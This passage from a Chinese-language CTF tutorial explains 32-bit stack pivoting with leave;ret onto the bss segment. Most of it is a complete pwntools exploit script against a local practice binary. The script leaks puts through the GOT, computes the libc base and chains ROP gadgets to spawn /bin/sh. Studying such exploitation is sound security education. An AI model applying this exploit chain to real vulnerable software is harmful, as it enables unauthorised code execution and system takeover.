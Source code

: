 call func() 执行完要退出的时候要进行与call func相反的操作（恢复现场）维持栈平衡！

```basic
1. leave;          //mov esp,ebp;  pop ebp;
2. ret ;           // pop eip
```

栈迁移的核心思想就是：将栈 的  esp 和 ebp 转移到一个“输入不受长度限制的且可控制”的地址处，通常是 bss 段地址！在最后ret 的时候  如果我们能够控制得 了栈顶 esp指向的地址就相当于控制了程序执行流！

> 这里有个很好的描述，建议大家可以去看下：
>
> [https://blog.csdn.net/yuanyunfeng3/article/details/51456049](https://blog.csdn.net/yuanyunfeng3/article/details/51456049)
>

# 32位程序 栈迁移
先把完整的脚本放出来，再慢慢解释：

```powershell
#coding:utf8
from pwn import *

p=process('./migration')
elf=ELF('./migration')
libc = ELF('/usr/lib32/libc.so.6')#本地libc文件
context.log_level="debug"  

buf=elf.bss()+0x500
buf1=elf.bss()+0x400
read_plt=elf.plt['read']
leave_ret=0x08048418
# 0x08048418 : leave ; ret

payload1='a'*(0x28)+p32(buf)+p32(read_plt)+p32(leave_ret)+p32(0)+p32(buf)+p32(0x100)
p.sendafter('Try your best :\n',payload1)

puts_plt=elf.plt['puts']
pop1ret=0x0804836d
# 0x0804836d : pop ebx ; ret
puts_got=elf.got['puts']

payload2=p32(buf1)+p32(puts_plt)+p32(pop1ret)+p32(puts_got)
payload2+=p32(read_plt)+p32(leave_ret)+p32(0)+p32(buf1)+p32(0x100)
p.sendline(payload2)

puts_addr=u32(p.recv(4))
success("puts_addr = "+hex(puts_addr))
libcbase=puts_addr-libc.symbols['puts']
system_addr=libcbase+libc.symbols['system']

pop3ret=0x08048569
# 0x08048569 : pop esi ; pop edi ; pop ebp ; ret
payload3=p32(buf)+p32(read_plt)+p32(pop3ret)+p32(0)+p32(buf)+p32(0x100)
payload3+=p32(system_addr)+p32(0xdeadbeef)+p32(buf)
p.sendline(payload3)
p.sendline("/bin/sh\x00")

p.interactive()
```
